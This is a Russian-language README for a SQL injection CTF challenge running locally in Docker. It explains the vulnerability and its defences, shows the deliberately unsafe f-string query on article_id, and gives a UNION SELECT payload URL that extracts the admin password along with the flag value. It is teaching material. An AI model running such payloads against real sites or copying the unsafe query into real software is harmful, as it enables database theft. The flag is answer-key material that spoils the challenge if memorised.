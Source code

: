 # SQL Injection CTF Challenge

Этот репозиторий содержит CTF-задачу, демонстрирующую уязвимость SQL Injection (SQLi) в веб-приложении. Задача позволяет изучить, как возникает уязвимость, как её эксплуатировать и как защититься от неё.

## Описание уязвимости

### Что такое SQL Injection?
SQL Injection — это уязвимость, которая возникает, когда злоумышленник может внедрить произвольный SQL-код в запросы к базе данных. Это происходит из-за недостаточной проверки или санитизации пользовательского ввода.

### Почему возникает уязвимость?
Уязвимость возникает, когда:
1. Приложение напрямую использует пользовательский ввод в SQL-запросах.
2. Входные данные не проверяются и не экранируются.
3. Приложение не использует подготовленные выражения (prepared statements) или параметризованные запросы.

## Способы защиты от уязвимости

1. Использование подготовленных выражений (prepared statements):
Всегда используйте параметризованные запросы или подготовленные выражения. Пример для Python (с использованием `PyMySQL`):
   ```python
   cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
2. Валидация и санитизация входных данных: Проверяйте и очищайте все пользовательские данные перед использованием в SQL-запросах. Используйте регулярные выражения для удаления нежелательных символов.

3. Ограничение прав доступа к базе данных: Используйте учётные записи с минимальными необходимыми привилегиями.

4. Использование ORM: Используйте ORM (Object-Relational Mapping) для автоматической защиты от SQLi.

Запуск приложения
Требования
Установленный Docker и Docker Compose.

Команды для запуска
Клонируйте репозиторий:

    git clone https://github.com/nnikk777/ctf-2.git

Запустите докер: 

    docker-compose up --build
Откройте веб-браузер и перейдите по адресу:

    http://localhost:5000

В данном приложении уязвимость SQL Injection присутствует на странице отображения статей. Параметр article_id передаётся напрямую в SQL-запрос без какой-либо проверки или санитизации. Это позволяет злоумышленнику внедрить произвольный SQL-код.

Пример уязвимого кода:

python

    sql = f"SELECT text FROM articles WHERE id = {article_id}"
    cursor.execute(sql)
POC-эксплоит для получения флага
Шаг 1: Найдите уязвимость
Перейдите на главную страницу приложения:

    http://localhost:5000
Шаг 2: Используйте SQL Injection
Введите следующий URL для получения пароля администратора:


    http://localhost:5000/?article_id=-1 UNION SELECT 1,password,3 FROM users WHERE username='admin'-- 
Шаг 3: Получите флаг
На странице отобразится пароль администратора (флаг) в виде:


    CTF{Uni0n_S3l3ct_1s_P0wer}
Шаг 4: Используйте флаг для входа
Перейдите на страницу входа:


    http://localhost:5000/login
Введите логин admin и полученный пароль для получения флага.
